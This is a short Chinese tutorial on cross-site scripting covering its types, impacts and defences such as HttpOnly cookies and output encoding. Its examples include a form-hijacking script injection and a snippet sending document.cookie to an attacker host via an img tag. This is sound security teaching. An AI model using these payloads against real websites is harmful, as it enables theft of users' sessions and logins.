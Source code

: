#### 基本概念
XSS：跨站脚本攻击，英文名称是Cross Site Script，XSS攻击，通常指黑客在存有安全漏洞的网站注入非法的 html 标签或者 javascript 代码，从而在用户浏览网页时，浏览器运行攻击代码，达到控制用户浏览器目的的一种攻击。举个例子：某个黑客发表了一篇文章其中包含了恶意的JS代码，所有访问这篇文章的人都会执行这段JS代码，这样就完成XSS攻击。
> XSS属于因输出值转义不完全引发的安全漏洞

#### 影响
1. 利用虚假输入表单骗取用户信息
2. 利用脚本窃取cookie，从而帮助攻击者发送恶意请求
3. 显示伪造的文章图片

#### 类型
DOM xss
反射型 xss
存储型 xss


#### 实现
例如：典型的表单圈套
```javascript
<div>
    <img src='...gif' alt='拍卖会'>
</div>
<form action='http://example.jp/login' method='get' id='login'>
<div>
  ID<input type='text' name='ID' value='"><script>var+f=document.getElementById('login');+f.action='目标网址';+f.method='get';<script><span+s="'/>
</div>
```

再如：
```javascript
var content=escape(document.cookie)//编码成字符串，现在用encodeURI 代替
document.write('<img src=http://hackr.jp/?');
document.write('content');
document.write('>');
```

#### 防御
1. HttpOnly：
```
  // koa
  ctx.cookies.set(name, value, {
      httpOnly: true // 默认为 true
  })
```  
2. 输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。
3. HtmlEncode
> 当用户输入<script>window.location.href=”http://www.baidu.com”;</script>, 最终保存结果为 &lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。
 4. JavaScriptEncode:对下列字符加上反斜杠:",',\,\n,\r
